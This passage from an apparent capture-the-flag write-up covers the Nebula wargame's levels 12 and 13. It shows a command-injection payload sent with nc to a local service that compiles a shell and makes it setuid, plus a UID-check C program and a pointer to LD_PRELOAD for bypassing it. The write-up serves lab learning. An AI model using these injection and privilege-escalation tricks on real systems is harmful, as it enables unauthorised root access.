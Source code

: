 So, to solve level12:

```bash
level12@nebula:~$ echo ";gcc /var/tmp/shell.c -o /var/tmp/flag12;chmod 4777 /var/tmp/flag12;#" | nc 127.0.0.1 50001
Password: Better luck next time

level12@nebula:~$ /var/tmp/flag12
sh-4.2$ getflag
You have successfully executed getflag on a target account
sh-4.2$
```

## level13

[Level13's Description](https://exploit-exercises.com/nebula/level13/):
{% blockquote %}
There is a security check that prevents the program from continuing execution if the user invoking it does not match a specific user id.
{% endblockquote %}

With the description we are provided with the source code of a small C program:

```lua level13_safe.c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <sys/types.h>
#include <string.h>

#define FAKEUID 1000

int main(int argc, char **argv, char **envp)
{
  int c;
  char token[256];

  if(getuid() != FAKEUID) {
      printf("Security failure detected. UID %d started us, we expect %d\n", getuid(), FAKEUID);
      printf("The system administrators will be notified of this violation\n");
      exit(EXIT_FAILURE);
  }

  // snip, sorry :)

  printf("your token is %s\n", token);

}
```

This level had me researching for quite some time. I came to learn of ELF DSO's and `LD_PRELOAD`. Basically, it is possible to have the dynamic linker preload shared libraries from the `LD_PRELOAD` environment variable that may allow for some functions to be modified. [This](https://rafalcieslak.wordpress.com/2013/04/02/dynamic-linker-tricks-using-ld_preload-to-cheat-inject-features-and-investigate-programs/) article contained most of the magic that was needed to get this level done.
